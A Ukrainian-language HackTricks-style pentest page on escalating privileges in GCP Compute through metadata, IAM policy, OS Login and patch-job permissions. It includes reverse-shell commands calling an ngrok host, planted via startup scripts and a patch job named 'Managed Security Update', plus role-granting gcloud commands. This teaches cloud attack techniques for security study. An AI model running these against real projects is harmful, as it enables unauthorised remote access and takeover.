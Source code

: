 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережу) в GCP перегляньте:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Зверніть увагу, що для виконання всіх атак підвищення привілеїв, які вимагають зміни метаданих екземпляра (наприклад, додавання нових користувачів та SSH-ключів), **необхідно, щоб у вас були права `actAs` на SA, прикріплену до екземпляра**, навіть якщо SA вже прикріплена!

### `compute.projects.setCommonInstanceMetadata`

З цим дозволом ви можете **змінювати** інформацію про **метадані** **екземпляра** та змінювати **авторизовані ключі користувача**, або **створювати** **нового користувача з правами sudo**. Таким чином, ви зможете виконати SSH в будь-який екземпляр VM і вкрасти GCP Service Account, з яким працює екземпляр.\
Обмеження:

- Зверніть увагу, що GCP Service Accounts, які працюють в екземплярах VM, за замовчуванням мають **дуже обмежений обсяг**
- Вам потрібно буде **мати можливість зв'язатися з SSH** сервером для входу

Для отримання додаткової інформації про те, як експлуатувати цей дозвіл, перегляньте:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Ви також можете виконати цю атаку, додавши новий startup-script і перезавантаживши екземпляр:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ця дозволяє надає **ті ж привілеї, що й попереднє дозволу**, але для конкретних екземплярів, а не для всього проекту. **Ті ж експлойти та обмеження, що й для попереднього розділу, застосовуються**.

### `compute.instances.setIamPolicy`

Цей вид дозволу дозволить вам **наділити себе роллю з попередніми дозволами** та ескалувати привілеї, зловживаючи ними. Ось приклад додавання `roles/compute.admin` до облікового запису служби:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Якщо **OSLogin увімкнено в екземплярі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до екземпляра. Ви **не матимете root прав** всередині екземпляра.

> [!TIP]
> Щоб успішно увійти з цим дозволом всередині VM екземпляра, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.

### **`compute.instances.osAdminLogin`**

Якщо **OSLogin увімкнено в екземплярі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до екземпляра. Ви будете мати **root права** всередині екземпляра.

> [!TIP]
> Щоб успішно увійти з цим дозволом всередині VM екземпляра, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Можливо **створити віртуальну машину з призначеним обліковим записом служби та вкрасти токен** облікового запису служби, отримуючи доступ до метаданих для ескалації привілеїв.

Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Якщо у вас є дозволи **`osconfig.patchDeployments.create`** або **`osconfig.patchJobs.exec`**, ви можете створити [**роботу з патчами або розгортання**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Це дозволить вам переміщатися в середовищі та отримати виконання коду на всіх обчислювальних екземплярах у проекті.

Зверніть увагу, що на даний момент вам **не потрібен дозвіл `actAs`** на SA, прикріплену до екземпляра.

Якщо ви хочете вручну експлуатувати це, вам потрібно буде створити або [**роботу з патчами**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **або** [**розгортання**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Для роботи з патчами виконайте:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Щоб розгорнути патч-розгортання:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Інструмент [patchy](https://github.com/rek7/patchy) міг бути використаний у минулому для експлуатації цієї неконфігурації (але зараз він не працює).

**Зловмисник також може зловживати цим для збереження доступу.**

### `compute.machineImages.setIamPolicy`

**Надайте собі додаткові дозволи** на образи обчислень.

### `compute.snapshots.setIamPolicy`

**Надайте собі додаткові дозволи** на знімок диска.

### `compute.disks.setIamPolicy`

**Надайте собі додаткові дозволи** на диск.

### Обхід доступу до обсягів

Слідуючи за цим посиланням, ви знайдете деякі [**ідеї для спроби обійти обсяги доступу**](../).

### Локальне підвищення привілеїв у GCP Compute інстансі

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## Посилання

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
